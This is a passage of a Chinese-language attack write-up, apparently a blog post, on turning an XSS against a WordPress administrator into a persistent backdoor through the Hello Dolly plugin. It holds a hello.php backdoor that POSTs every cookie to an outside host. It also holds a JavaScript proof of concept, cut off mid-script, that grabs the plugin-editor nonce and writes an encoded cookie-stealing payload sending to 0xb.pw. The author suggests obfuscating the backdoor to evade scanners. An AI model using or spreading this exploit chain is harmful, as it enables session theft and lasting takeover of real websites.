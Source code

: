 [![image.png-56.9kB](http://static.zybuluo.com/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png)](http://static.zybuluo.com/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png)

成功收到了来自目标的cookie。

虽然我们成功的收到了目标的cookie，但是这个cookie可能在一段时间之后就无效了，那么怎么能把这样的一个后门转化为持久的攻击呢。这里我还是建议使用hello holly这个插件。

这个插件本身是一个非常特殊的插件，在启用情况下，这个插件会被各个页面所包含，但细心的朋友可能会发现，在前面的攻击过程中，由于我们不遵守插件的页面格式，页面内容被替换为`<?php phpinfo();?>`的过程中，也同样的不被识别为插件，我们需要将页面修改为需要的页面格式，并插入我们想要的代码。

当hello.php为这样时，应该是最简页面内容

```
<?php
/*
Plugin Name: Hello Dolly
Version: 1.6
*/
```

那么我们来构造完整的攻击请求

1、构造xss攻击链接->管理员点击->修改插件目录的hello.php->启动hello, holly插件->访问首页->触发攻击
2、hello.php页面直接获取cookie发出。

hello.php

```
<?php
/*
Plugin Name: Hello Dolly
Version: 1.6
*/
?>
<script>
var d = new XMLHttpRequest(); 
d.open('POST', 'http://xxx', true); 
d.setRequestHeader("Content-type","application/x-www-form-urlencoded");
d.send('cookie=<?php echo urlencode(implode('#', $_COOKIE))?>');
</script>
```

这部分的代码看似简单，实际上还有很大的优化空间，就比如：
1、优化执行条件：通过和远控（xss平台）交互，获取时间戳，和本地时间做对比，如果时间不符合要求不执行，避免管理员在后台的多次访问导致xss平台爆炸。
2、通过代码混淆等方式，将代码混淆入原本的代码中，避免安全类防御工具在站内扫面时发现此页面。

这里我就不做深究了，完整的写入poc如下

```
// 写入后门
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/plugin-editor.php?';
q = 'file=hello.php';
s = '%3C%3Fphp%0A%2f%2a%0APlugin%20Name%3A%20Hello%20Dolly%0AVersion%3A%201.6%0A%2a%2f%0A%3F%3E%0A%3Cscript%3E%0Avar%20d%20%3D%20new%20XMLHttpRequest%28%29%3B%20%0Ad.open%28%27POST%27%2C%20%27http%3A%2f%2f0xb.pw%27%2C%20true%29%3B%20%0Ad.setRequestHeader%28%22Content-type%22%2C%22application%2fx-www-form-urlencoded%22%29%3B%0Ad.send%28%27cookie%3D%3C%3Fphp%20echo%20urlencode%28implode%28%27%23%27%2C%20%24_COOKIE%29%29%3F%3E%27%29%3B%0A%3C%2fscript%3E';

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + /nonce" value="([^"]*?)"/.exec(a.responseText)[1] +
'&newcontent=' + s + '&action=update&file=hello.php';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
```